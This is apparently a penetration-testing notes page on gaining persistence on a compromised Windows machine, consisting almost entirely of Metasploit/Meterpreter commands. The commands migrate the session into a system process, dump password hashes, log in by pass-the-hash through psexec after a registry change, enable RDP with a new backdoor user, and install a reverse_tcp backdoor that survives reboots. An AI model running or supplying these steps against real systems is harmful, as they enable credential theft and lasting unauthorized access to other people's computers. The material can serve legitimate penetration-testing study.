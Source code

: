 # k - Persistence

Persistence ensures we will be able to reconnect to the compromised machine any time we llike even if the machine is rebooted or patched. To do so, we can try to gather credentials to access remote services such as RDP, SSH, VNC, VPN, create backdoors, new users, edit current services or install new vulnerabilities on the Victim.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# asuming we already gained NT AUTHORITY on the victim system.
# 1st thing to do is to make the current session stable, ie by migrating to a more stable process.
meterpreter > ps # list all running prrocesses.
meterpreter > getpid # displays our current running process ID.
meterpreter > migrate <PID> # migrate to either svchost.exe or explorer.exe.

# 2nd thing is to retrieve hashes.
meterpreter > hashdump # dumps all hashes.
# or use another module to do this...
meterpreter > run post/windows/gather/smart_hashdump # dumps all hashes.

# we can try the pass-the-hash method to login.
msf > use exploit/windows/smb/psexec
msf > set RHOST victim ip
msf > set SMBUSER <username>
msf > set SMBPASS <paste the hash>
msf > run # sometime login will fail because we don't have access to administrative shares, since we already have NT AUTHORITY, we just need to set a registry entry and the module should work.

# enter the cmd:
reg setval -k 'HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' -v LocalAccountTokenFIlterPolicy -t REG_DWORD -d 1

# copy and pase into the Meterpreter session.
# the module should work now, but if the user changes his/her password we loose our access.

# 3rd thing is we can create a new user and enable RDP if not enabled.
# check if RDP is enabled or not, in kali terminal:
xfreerdp /v:192.168.0.11 # if no response, then RDP is not enabled.

meterpreter > run getgui # displays help menu.
meterpreter > run -e -u atk -p atk # enable rdp and create new user.

# check again.
xfreerdp /v:192.168.0.11 /u:atk /p:atk # login with RDP.

# 4th
# installing a Backdoor on the target.
msf > use exploit/windows/local/persistence
msf >  set SESSION
msf > set STARTUP SYSTEM # since we have system privs.
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST, LPORT 80 
msf > run 
# anytime we want to connect back to this machine, we just set up a listener with same parameters passed (use multi/handler).
# Note this persistence will continue even after the victim pc is rebooted.
```
{% endcode %}
